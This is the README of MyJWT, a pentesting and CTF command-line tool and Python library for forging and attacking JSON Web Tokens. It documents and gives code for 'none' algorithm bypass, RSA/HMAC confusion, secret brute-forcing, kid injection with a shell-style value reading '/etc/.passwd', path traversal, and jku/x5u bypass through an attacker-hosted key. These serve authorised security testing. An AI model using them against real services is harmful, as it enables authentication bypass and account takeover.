

# MyJWT
[](https://circleci.com/gh/mBouamama/MyJWT.svg?style=shield)
[](https://pypi.org/project/myjwt/)
[](https://repology.org/project/myjwt/versions)
[](https://pypi.org/project/myjwt/)
[](https://pepy.tech/project/myjwt)
[](https://github.com/mBouamama/MyJWT/releases)
[](https://myjwt.readthedocs.io/en/latest/?badge=latest)
[](https://inventory.raw.pm/)
[](https://github.com/psf/black)
[](https://codecov.io/gh/mBouamama/MyJWT)
[](https://github.com/HunterMcGushion/docstr_coverage.git)
[](https://codebeat.co/projects/github-com-mbouamama-myjwt-master)
[](https://pyup.io/repos/github/mBouamama/MyJWT/)
[](https://snyk.io/test/github/mBouamama/MyJWT?targetFile=requirements.txt)
# Introduction
This cli is for pentesters, CTF players, or dev.<br>
You can modify your jwt, sign, inject ,etc...<br>
Check [Documentation](http://myjwt.readthedocs.io) for more information.<br>
If you see problems or enhancement send an issue.I will respond as soon as possible.
Enjoy :)

# Documentation
Documentation is available at http://myjwt.readthedocs.io
# Table of Contents
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Download](#download)
- [Contribute](#contribute)
- [ChangeLog](#change-log)
# Features
- modify jwt (header/Payload)
- None Vulnerability
- RSA/HMAC confusion
- Sign a jwt with key
- Brute Force to guess key
- crack jwt with regex to guess key
- kid injection
- Jku Bypass
- X5u Bypass

# Installation
To install myjwt, simply use pip:
```
pip install myjwt
```
To run mywt from a docker image, run:
```
docker run -it docker.pkg.github.com/mbouamama/myjwt/myjwt:latest myjwt

# mount volume for wordlist
docker run -v $(pwd)/wordlist:/home/wordlist/  -it docker.pkg.github.com/mbouamama/myjwt/myjwt:latest myjwt
# On Windows
docker run -v %CD%/wordlist:/home/wordlist/  -it docker.pkg.github.com/mbouamama/myjwt/myjwt:latest myjwt
```
To install myjwt, on git:
```
git clone https://github.com/mBouamama/MyJWT.git
cd ./MyJWT
pip install -r requirements.txt
python MyJWT/myjwt_cli.py --help
```

To install myjwt on BlackArch:

```
pacman -S myjwt
```

[](https://repology.org/project/myjwt/versions)

# Usage

## Modify JWT

| Option                      | Type      | Example  | help|
| --------------------------- |:---------:|:--------:| ---:|
| --ful-payload               | JSON      | {"user": "admin"} | New payload for your jwt.|
| -h, --add-header            | key=value |   user=admin | Add a new key, value to your jwt header, if key is present old value will be replaced.|
| -p, --add-payload           | key=value |   user=admin |  Add a new key, value to your jwt payload, if key is present old value will be replaced.|

## Check Your JWT (HS alg)

| Option                      | Type      | Example  | help|
--- | --- | --- | ---
| --sign                      | text      | mysecretkey | Sign Your jwt with your key
| --verify                    | text      | mysecretkey |  Verify your key.

## Exploit

| Option                      | Type      | Example  | help|
--- | --- | --- | ---
| -none, --none-vulnerability | Nothing   |  | Check None Alg vulnerability.
| --hmac                      | PATH      | ./public.pem | Check RS/HMAC Alg vulnerability, and sign your jwt with public key.
| --bruteforce                | PATH      | ./wordlist/big.txt | Bruteforce to guess th secret used to sign the token. Use txt file with all password stored(1 by line)
| --crack                     | REGEX     | "[a-z]{4}" | regex to iterate all string possibilities to guess the secret used to sign the token.
| --kid                       | text      | "00; echo /etc/.passwd" | Kid Injection sql
| --jku                       | text      | MYPUBLICIP | Jku Header to bypass authentication, use --file if you want to change your jwks file name, and --key if you want to use your own private pem
| --x5u                       | text      | MYPUBLICIP | For jku or x5c Header, use --file if you want to change your jwks file name, and --key if you want to use your own private pem

## Send your jwt

| Option                      | Type      | Example  | help|
--- | --- | --- | ---
|  -u, --url                  | url       |  http://challenge01.root-me.org/web-serveur/ch59/admin|  Url to send your jwt.
| -m, --method                | text      | POST  | Method use to send request to url.(Default: GET).
| -d, --data                  | key=value | secret=MY_JWT  | Data send to your url.Format: key=value. if value = MY_JWT value will be replace by your new jwt.
|  -c, --cookies              | key=value | secret=MY_JWT  | Cookies to send to your url.Format: key=value.if value = MY_JWT value will be replace by your new jwt.

## Other

| Option                      | Type      | Example  | help|
--- | --- | --- | ---
|  --crt                      | PATH       |  ./public.crt|  For x5cHeader, force crt file
|  --key                      | PATH       |  ./private.pem|  For jku or x5c Header, force private key to your key file
|   --file                    | text       |  myfile|  For jku Header, force file name without .json extension
|  --print                    | Nothing    |  |  Print Decoded JWT
|  --help                     | Nothing    |  |   Show Helper message and exit.
|  --version                  | Nothing    |  |  Show Myjwt version

# Examples
- [Modify Your jwt](#modify-your-jwt)
- [None Vulnerabilty Check](#none-vulnerability)
- [Sign Key](#sign-key)
- [Brute Force Signature](#brute-force)
- [RSA/HMAC Confusion](#rsahmac-confusion)
- [Kid Injection](#kid-injection)
- [Send your new Jwt to url](#send-your-new-jwt-to-url)
- [Jku Vulnerability](#jku-vulnerability)
- [X5u Vulnerability](#x5u-vulnerability)
## Modify your Jwt
### CLI
```
myjwt YOUR_JWT --add-payload "username=admin" --add-header "refresh=false"
```
### Code
```
from myjwt.modify_jwt import add_header, change_payload
from myjwt.utils import jwt_to_json, SIGNATURE, encode_jwt

jwt_json = jwt_to_json(jwt)
jwt_json = add_header(jwt_json, {"kid": "001"})
jwt_json = change_payload(jwt_json, {"username": "admin"})
jwt = encode_jwt(jwt_json) + "." + jwt_json[SIGNATURE]
```
Full example here: [01-modify-jwt](https://github.com/mBouamama/MyJWT/blob/master/examples/01-modify-jwt/modify-jwt.py)
## None Vulnerability
### CLI
```
myjwt YOUR_JWT --none-vulnerability
```
### CODE
```
from myjwt.utils import jwt_to_json, SIGNATURE, encode_jwt
from myjwt.vulnerabilities import none_vulnerability
jwt_json = jwt_to_json(jwt)
jwt = none_vulnerability(encode_jwt(jwt_json) + "." + jwt_json[SIGNATURE])
```
Full example here: [02-none-vulnerability](https://github.com/mBouamama/MyJWT/blob/master/examples/02-none-vulnerability/none-vulnerability.py)
## Sign Key
### CLI
```
myjwt YOUR_JWT --sign YOUR_KEY
```
### CODE
```
from myjwt.modify_jwt import signature
from myjwt.utils import jwt_to_json
key = "test"
jwt = signature(jwt_to_json(jwt), key)
```
Full example here: [03-sign-key](https://github.com/mBouamama/MyJWT/blob/master/examples/03-sign-key/sign-key.py)
## Brute Force
### CLI
```
myjwt YOUR_JWT --bruteforce PATH
```
### CODE
```
from myjwt.vulnerabilities import bruteforce_wordlist
wordlist = "../../wordlist/common_pass.txt"
key = bruteforce_wordlist(jwt, wordlist)
```
Full example here: [04-brute-force](https://github.com/mBouamama/MyJWT/blob/master/examples/04-brute-force/brute-force.py)
## Crack
### CLI
```
myjwt YOUR_JWT --crack REGEX
```
## RSA/HMAC Confusion
### CLI
```
myjwt YOUR_JWT --hmac FILE
```
### CODE
```
from myjwt.vulnerabilities import confusion_rsa_hmac
file = "public.pem"
jwt = confusion_rsa_hmac(jwt, file)
```
Full example here: [05-rsa-hmac-confusion](https://github.com/mBouamama/MyJWT/blob/master/examples/05-rsa-hmac-confusion/rsa-hmac-confusion.py)
## Kid Injection
### CLI
```
myjwt YOUR_JWT --kid INJECTION
```
### Code
```
from myjwt.modify_jwt import signature
from myjwt.utils import jwt_to_json
from myjwt.vulnerabilities import inject_sql_kid

injection = "../../../../../../dev/null"
sign = ""
jwt = inject_sql_kid(jwt, injection)
jwt = signature(jwt_to_json(jwt), sign)
```
Full example here: [06-kid-injection](https://github.com/mBouamama/MyJWT/blob/master/examples/06-kid-injection/kid-injection.py)

## Send your new Jwt to url

### CLI
```
myjwt YOUR_JWT -u YOUR_URL -c "jwt=MY_JWT" --non-vulnerability --add-payload "username=admin"
```

## Jku Vulnerability
### CLI
```
myjwt YOUR_JWT --jku YOUR_URL
```
### Code
```
from myjwt.vulnerabilities import jku_vulnerability
new_jwt = jku_vulnerability(jwt=jwt, url="MYPUBLIC_IP")
print(jwt)
```
Full example here: [07-jku-bypass](https://github.com/mBouamama/MyJWT/blob/master/examples/07-jku-bypass/jku-bypass.py)
## X5U Vulnerability
### CLI
```
myjwt YOUR_JWT --x5u YOUR_URL
```
### Code
```
from myjwt.vulnerabilities import x5u_vulnerability
newJwt = x5u_vulnerability(jwt=jwt, url="MYPUBLIC_IP")
print(jwt)
```
Full example here: [08-x5u-bypass](https://github.com/mBouamama/MyJWT/blob/master/examples/08-x5u-bypass/x5u-bypass.py)

# Download
Check github releases. Latest is available at https://github.com/mBouamama/MyJWT/releases/latest
# Contribute
- Fork this repository or clone it
- Create a new branch (feature, hotfix, etc...)
- Make necessary changes and commit those changes
- Check lint with `make flake8`
- Check unit_test with `make test`
- Send Pull Request
I will check as Soon as Possible.

# Change log

The log's become rather long. It moved to its own file.

See [CHANGES](https://github.com/mBouamama/MyJWT/blob/master/CHANGELOG.md).
